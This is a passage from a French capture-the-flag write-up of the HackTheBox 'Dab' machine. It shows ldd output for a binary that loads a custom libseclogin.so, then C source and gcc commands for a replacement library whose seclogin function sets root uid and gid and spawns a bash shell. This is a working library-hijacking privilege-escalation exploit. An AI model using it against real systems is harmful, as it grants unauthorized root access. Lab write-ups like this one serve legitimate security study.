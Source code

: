 En revanche il y a un autre binaire qui ne m'a pas sauté immédiatement aux yeux et qui fait appel à une librairie custom :  

```plain
genevieve@dab:~$ ldd /usr/bin/myexec
    linux-vdso.so.1 =>  (0x00007ffe415cd000)
    libseclogin.so => /usr/lib/libseclogin.so (0x00007f4cc9f39000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4cc9b6f000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f4cca13b000)
```

Ce binaire demande un mot de passe avant de faire appel à la fonction importée *seclogin*. C'est très simple de le retrouver dans le code.  

D'après la valeur des registres on devine que le prototype de cette fonction ne prend aucun argument.  

![HackTheBox Dab CTF myexec binary](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/dab/dab_myexec.png)

L'exploitation est en tout point similaire à un scénario du type LD\_PRELOAD :  

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

// gcc -Wall -fPIC -c -o seclogin.o seclogin.c
// gcc -shared -fPIC -Wl,-soname -Wl,libseclogin.so -o libseclogin.so seclogin.o
void seclogin(void)
{
        setreuid(0, 0);
        setregid(0, 0);
        system("/bin/bash");
        return 0;
}
```
